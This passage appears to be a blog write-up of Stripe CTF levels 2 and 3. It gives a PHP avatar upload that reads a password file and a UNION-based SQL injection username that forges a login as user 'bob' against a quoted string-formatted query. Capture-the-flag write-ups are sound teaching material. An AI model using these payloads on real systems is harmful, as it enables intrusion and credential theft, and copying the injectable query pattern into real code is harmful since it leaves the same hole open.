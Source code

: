 The vulnerability here is called "PHP".  Yeah, whatever, PHP runs Facebook, I don't care, go away.


## Level 2: Social Network

PHP again.  Now we're getting into exploits I have, tragically, actually seen in the wild.  The password is still stored in a file (that cannot be read directly), but now the only real entry point to the program is uploading an avatar.

So.  Yeah.

###### my_avatar.php
```php
<?php echo file_get_contents('../password.txt');
```

Upload that as your avatar and visit the URL.  PHP injection.

Props to level 1 for reminding me that `file_get_contents` exists.


## Level 3: Secret Vault

Level 2 was the last of the PHP puzzles.  Now we're getting serious.  This one is a [Flask][] app—i.e., Python.

This is a sequel to the Secret Safe, but it's the same general idea, except that namespaces and keys have been replaced with genuine usernames and passwords.

A glance over the code, and something stands out:

```python
    query = """SELECT id, password_hash, salt FROM users
               WHERE username = '{0}' LIMIT 1""".format(username)
```

This, then, is the obligatory SQL injection puzzle.

I am shamed to admit I took a few minutes on this—way longer than I should have.  I tried to trick SQLite into running multiple statements here, or embedding an `INSERT`/`UPDATE` inside this `SELECT`.  Those don't work, which is good.

I didn't get it until I rephrased the question as: how can I trick this query into retrieving data that's _not_ really from the `users` table?

Oh, right.  New username:

    ' UNION SELECT (select id from users where username = 'bob'), '2c26b46b68ffc68ff99b453c1d30413413422d706483bfa0f98a5e886266e7ae', '

Which produces the final query:

```sql
SELECT id, password_hash, salt FROM users WHERE username = ''
UNION
SELECT (select id from users where username = 'bob'), '2c26b46b68ffc68ff99b453c1d30413413422d706483bfa0f98a5e886266e7ae', ''
LIMIT 1
```


[Flask]: http://flask.pocoo.org/
[klange]: https://twitter.com/kevinlange
[ruby regex]: http://homakov.blogspot.com/2012/05/saferweb-injects-in-various-ruby.html
[HLE impl]: http://www.vnsecurity.net/t/length-extension-attack/
[Twisted]: http://twistedmatrix.com/trac/
[leaderboard]: https://stripe-ctf.com/leaderboard
[engineer's victory dance]: http://dilbert.com/strips/comic/1997-11-27/
[Stripe]: https://stripe.com/
[stripe ctf]: https://stripe-ctf.com/
[progress]: https://stripe-ctf.com/progress/eevee
[level8.py]: http://paste.pound-python.org/show/XVsuIyr0pmBX24Fy1YOQ/
[list of solvers]: https://docs.google.com/spreadsheet/viewform?formkey=dHBYSjJyY1V3dFdUN1hvMVB5cUU0Nnc6MQ